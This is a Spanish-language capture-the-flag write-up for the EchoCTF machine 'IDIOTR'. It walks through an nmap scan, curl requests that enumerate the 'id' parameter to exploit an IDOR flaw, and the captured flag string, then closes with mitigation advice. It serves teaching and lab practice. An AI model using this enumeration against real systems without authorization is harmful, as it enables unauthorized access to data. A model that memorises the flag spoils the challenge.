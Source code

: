 # **IDIOTR**

![idiotr1][idiotr1.png]
## **Introducción**

La máquina **IDIOTR** de **EchoCTF** presenta un reto web que oculta una única bandera, la cual se puede obtener al explotar una vulnerabilidad del tipo **IDOR** (*Insecure Direct Object References* o Referencias Inseguras a Objetos Directos). Esta clase de vulnerabilidad permite acceder a recursos que normalmente deberían estar restringidos, simplemente manipulando parámetros en la URL.

**IP:** `10.0.41.2`

---

## **Reconocimiento y Escaneo**

Comenzamos el reconocimiento de la máquina **IDIOTR** con un escaneo de puertos utilizando **Nmap**. El comando utilizado fue:

```bash
nmap -sSC -vv -p- 10.0.41.2
```

**Resultado:**
```
PORT     STATE SERVICE REASON
1337/tcp open  waste   syn-ack ttl 63
```

El puerto **1337** se encuentra abierto. Al realizar una conexión HTTP a la IP `10.0.41.2` en dicho puerto, se carga una página web con una interfaz básica, donde encontramos un menú con diferentes secciones: *Home*, *About*, *Blogs* y *Secret*.

![iditr2][idiotr2.png]

---

## **Inspección del Código Fuente**

Usamos `curl` para verificar el contenido del sitio web desde la terminal:

```bash
curl http://10.0.41.2:1337/
```

Dentro del código fuente se observa el siguiente patrón de navegación:

```html
<a class="nav-link" href="/">Home</a>
<li class="nav-item active">
  <a class="nav-link" href="/?id=2">About</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=3">Blogs</a>
</li>
<li class="nav-item active">
  <a class="nav-link" href="/?id=4">Secret</a>
</li>
```

Esto indica que el sitio gestiona el contenido mediante una variable `id`, lo cual es un patrón típico de **IDOR**. Las secciones visibles van desde `id=2` hasta `id=4`.

---

## **Exploración de IDOR**

Probamos buscar cadenas relacionadas con la bandera utilizando `curl` y `grep` para extraer líneas relevantes:

```bash
curl http://10.0.41.2:1337/?id=4 | grep "ETSCTF"
```

Tras probar los valores conocidos (`id=2` al `id=4`) sin obtener resultados, decidimos probar otros valores no listados, como `id=1`:

```bash
curl http://10.0.41.2:1337/?id=1 | grep "ETSCTF"
```

**Respuesta:**
```
<p>Now You know why its called Insecure Direct Object Reference ETSCTF_764762092a32a29c2694d8c67209e5ce</p>
```

Con esto confirmamos que el parámetro `id` no está validado adecuadamente, y se puede manipular directamente para acceder a información sensible.

---

## **Identificación de Vulnerabilidades**

La vulnerabilidad identificada es una **IDOR (Insecure Direct Object Reference)**. Este tipo de falla ocurre cuando el sistema permite acceder directamente a objetos mediante identificadores predecibles o manipulables (por ejemplo, `id=1`, `id=2`, etc.), sin verificar si el usuario está autorizado para ver ese contenido.

Esta exposición permite que un atacante acceda a información confidencial simplemente modificando el valor de un parámetro en la URL, como ocurrió en este caso.

---

## **Medidas de Mitigación**

Para evitar vulnerabilidades del tipo IDOR, se deben seguir las siguientes buenas prácticas:

- **Control de Acceso a Nivel de Objeto:** No basta con ocultar recursos. Es fundamental verificar si el usuario tiene permisos para acceder al recurso solicitado, incluso si la solicitud parece válida.

- **Validación de Parámetros:** Los valores pasados por URL deben ser validados rigurosamente antes de procesar la petición.

- **Uso de identificadores no predecibles:** Evitar el uso de valores secuenciales (`id=1`, `id=2`, etc.). En su lugar, utilizar identificadores UUID u otras estrategias que dificulten el acceso arbitrario.

- **Registros y alertas:** Monitorear el acceso a parámetros críticos y generar alertas ante comportamientos anómalos, como exploraciones de múltiples IDs.
